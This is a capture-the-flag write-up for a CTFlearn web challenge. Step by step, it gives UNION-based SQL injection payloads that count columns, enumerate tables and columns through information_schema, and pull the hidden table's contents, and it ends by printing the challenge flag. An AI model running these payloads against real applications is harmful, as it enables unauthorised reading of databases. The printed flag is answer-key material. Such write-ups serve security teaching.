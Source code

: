 ```yaml
---
custom_edit_url: null
---
```


> I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command

![1](https://github.com/Knign/Write-ups/assets/110326359/26c58880-6263-475a-af38-6d87ebf8ed62)

## Determining the number of columns required
Let's find out how many columns this table has using the `NULL` values.
```
UNION SELECT NULL
UNION SELECT NULL,NULL
UNION SELECT NULL,NULL,NULL
```
When the number of `NULL` values matches the number of columns, the database returns a proper output.
```
1 UNION SELECT NULL, NULL, NULL, NULL
```

![2](https://github.com/Knign/Write-ups/assets/110326359/84ecfac8-9f9d-4452-a4ad-f65264c4500e)

So the current table has four columns.

## Finding all tables from the database
Now we want to find out the other tables so that we can figure out which one might be useful for us.

For that we can query `information_schema.tables` to list the tables in the database
```
1 UNION SELECT table_name, NULL, NULL, NULL FROM information_schema.tables
```

![3](https://github.com/Knign/Write-ups/assets/110326359/0cb54e5b-bad9-4ff1-b939-d16a7aa428c9)

```
Useful table: w0w_y0u_f0und_m3
```
## Finding all columns from w0w_y0u_f0und_m3
In order to find all the columns in the database we have to query `information_schema.columns`.
```
1 UNION SELECT column_name, NULL, NULL, NULL FROM information_schema.columns
```

![4](https://github.com/Knign/Write-ups/assets/110326359/5bb3157c-7686-4660-a9e8-8034c8d5d29a)

```
Useful column: f0und_m3
```
## Finding the flag
For the final step, we simply have to modify our query a little bit and select from `w0w_y0u_f0und_m3`.
```
1 UNION SELECT f0und_m3, NULL, NULL, NULL FROM w0w_y0u_f0und_m3
```

![5](https://github.com/Knign/Write-ups/assets/110326359/001e9b82-ab4d-4adb-83a4-c991a81d9cdc)

## Flag
```
CTFlearn{uni0n_1s_4_gr34t_c0mm4nd}
```
